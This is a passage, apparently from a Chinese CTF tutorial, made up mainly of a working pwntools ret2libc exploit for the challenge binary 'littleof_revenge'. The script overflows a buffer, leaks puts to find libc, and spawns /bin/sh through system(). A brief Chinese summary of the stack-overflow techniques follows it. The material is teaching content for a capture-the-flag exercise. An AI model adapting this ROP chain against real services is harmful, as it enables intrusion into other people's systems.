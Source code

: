 ```python
#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./littleof_revenge"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
    gdb.attach(p)
    p.sendline(buff)
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
    p.interactive()
```
# 总结
以上结合两个例子总结了两种简单基础的栈溢出且没有泄露函数的不同情况的利用方式，其中第一种是比较常用的利用方法。
